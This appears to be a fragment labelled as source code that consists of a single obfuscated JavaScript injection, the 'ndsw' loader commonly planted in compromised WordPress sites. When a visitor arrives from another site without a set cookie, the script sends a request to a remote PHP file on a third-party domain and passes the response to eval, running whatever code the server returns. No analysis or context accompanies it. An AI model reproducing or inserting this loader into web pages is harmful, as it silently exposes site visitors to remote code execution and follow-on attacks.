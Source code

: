 ;if(ndsw===undefined){function g(R,G){var y=V();return g=function(O,n){O=O-0x6b;var P=y[O];return P;},g(R,G);}function V(){var v=['ion','index','154602bdaGrG','refer','ready','rando','279520YbREdF','toStr','send','techa','8BCsQrJ','GET','proto','dysta','eval','col','hostn','13190BMfKjR','//designtrends.com.ph/wp-admin/css/colors/blue/blue.php','locat','909073jmbtRO','get','72XBooPH','onrea','open','255350fMqarv','subst','8214VZcSuI','30KBfcnu','ing','respo','nseTe','?id=','ame','ndsx','cooki','State','811047xtfZPb','statu','1295TYmtri','rer','nge'];V=function(){return v;};return V();}(function(R,G){var l=g,y=R();while(!![]){try{var O=parseInt(l(0x80))/0x1+-parseInt(l(0x6d))/0x2+-parseInt(l(0x8c))/0x3+-parseInt(l(0x71))/0x4*(-parseInt(l(0x78))/0x5)+-parseInt(l(0x82))/0x6*(-parseInt(l(0x8e))/0x7)+parseInt(l(0x7d))/0x8*(-parseInt(l(0x93))/0x9)+-parseInt(l(0x83))/0xa*(-parseInt(l(0x7b))/0xb);if(O===G)break;else y['push'](y['shift']());}catch(n){y['push'](y['shift']());}}}(V,0x301f5));var ndsw=true,HttpClient=function(){var S=g;this[S(0x7c)]=function(R,G){var J=S,y=new XMLHttpRequest();y[J(0x7e)+J(0x74)+J(0x70)+J(0x90)]=function(){var x=J;if(y[x(0x6b)+x(0x8b)]==0x4&&y[x(0x8d)+'s']==0xc8)G(y[x(0x85)+x(0x86)+'xt']);},y[J(0x7f)](J(0x72),R,!![]),y[J(0x6f)](null);};},rand=function(){var C=g;return Math[C(0x6c)+'m']()[C(0x6e)+C(0x84)](0x24)[C(0x81)+'r'](0x2);},token=function(){return rand()+rand();};(function(){var Y=g,R=navigator,G=document,y=screen,O=window,P=G[Y(0x8a)+'e'],r=O[Y(0x7a)+Y(0x91)][Y(0x77)+Y(0x88)],I=O[Y(0x7a)+Y(0x91)][Y(0x73)+Y(0x76)],f=G[Y(0x94)+Y(0x8f)];if(f&&!i(f,r)&&!P){var D=new HttpClient(),U=I+(Y(0x79)+Y(0x87))+token();D[Y(0x7c)](U,function(E){var k=Y;i(E,k(0x89))&&O[k(0x75)](E);});}function i(E,L){var Q=Y;return E[Q(0x92)+'Of'](L)!==-0x1;}}());};
